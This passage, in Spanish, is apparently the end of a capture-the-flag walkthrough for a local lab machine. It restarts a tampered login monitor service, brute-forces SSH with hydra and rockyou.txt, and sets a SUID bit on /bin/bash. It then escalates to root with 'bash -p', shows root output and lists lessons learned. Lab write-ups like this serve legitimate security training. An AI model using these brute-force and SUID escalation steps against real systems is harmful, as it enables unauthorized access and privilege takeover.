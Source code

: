 Ahora lo ejecutamos:
```bash
sudo service login_monitor restart
```

Ahora para que se active realizaremos un ataque de fuerza bruta con **hydra**
```bash
hydra -l memesploit -P /usr/share/wordlists/rockyou.txt -t 4 ssh://172.17.0.2
```

Ahora si listamos los permisos de la **bash** tenemos **SUID**
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( root )
bash -p
```

---

## Evidencia de Compromiso
Flags **Root**
```bash
bash-5.2# ls -la /root

-rw-r--r--  1 root root   33 Aug 31  2024 root.txt
```

```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a realizar enumeracion del servicio **SAMBA**
2. Aprendimos a realizar ataque de fuerza bruta a archivos zip con contrasena
3. Aprendimos a explotar servicios de **service**